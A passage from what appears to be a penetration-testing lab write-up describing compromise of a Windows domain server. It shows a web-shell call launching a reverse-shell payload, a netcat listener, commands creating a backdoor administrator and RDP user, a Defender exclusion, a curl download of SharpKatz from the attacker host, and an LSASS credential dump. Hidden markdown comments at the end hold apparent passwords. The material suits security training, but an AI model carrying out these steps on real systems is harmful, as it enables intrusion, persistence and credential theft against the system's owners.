     http://10.200.95.31/images/ws.php?c=malvasia.exe

Once executed a nc listener on port 4321, you should get a powershell reverse shell:

    nc -lvp 4321
    listening on [any] 4321 ...
    connect to [127.0.0.1] from localhost [127.0.0.1] 40676
    Windows PowerShell 
    Copyright (C) Microsoft Corporation. All rights reserved.
    
    PS C:\web\htdocs\images> 
    
Since the server has RDP enabled we can create a local admin user:

    net user support Password2@ /add
    net localgroup administrators support /add
    net localgroup "Remote Desktop Users" support /add

Then we can proceed to connect to the server using Remmina. Once logged I set a Defender exclusion folder for:

    C:\users\support\music


Now that we compromised a domain machine, we can try to get in control of the DC. To do that generally involves to get at first the credentials of the domain user. The first choice would be to try to dump LSASS to try to get some hashed password (or if we are lucky enough even clear password. But as we known, probably credentials guard is in place. We can verify I using the following command in powershell (run as administrator):

    Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root\Microsoft\Windows\DeviceGuard
    ...
    SecurityServicesConfigured                   : {0}
    SecurityServicesRunning                      : {0}
    ...
Since both 0 are returned for the settings showed above, INDEED it means that credentials guard is not enabled. Further more we can verify if we have privilege (we should since we are local admin) to dump LSASS:

    whoami /priv | findstr SeDebug
    SeDebugPrivilege                          Debug programs                                                     Enabled

At this point I decided to use the port of Mimikatz in C# [SharpKatz](https://github.com/b4rtik/SharpKatz), since it can be compiled by yourown and eventually you can modify the source code to try to evade AV. Eventually I'm more confident to make changes in C# code. For this Lab it was enough to run the compiled file from the excluded Defender folder. To download the file from our attacker machine we need to set up another listener in ligolo, to access our python webserver throught the agent. Follows the command to execute in liglolo console:

    [Agent : root@ip-10-200-95-33] » listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp

Then from S-SRV01 we can proceed to download the file:

    C:\Users\support\Music>curl -O http://10.200.95.33:8000/SharpKatz.exe

Then we can try to get lsass contents (run the command from an administrator CMD)

    C:\Users\support\Music>SharpKatz.exe --Command logonpasswords > lsass.txt
You will get the output in the lsass.txt too.


[//]: # (admin:DBManagerLogin!)
[//]: # (Nothingtoworry!)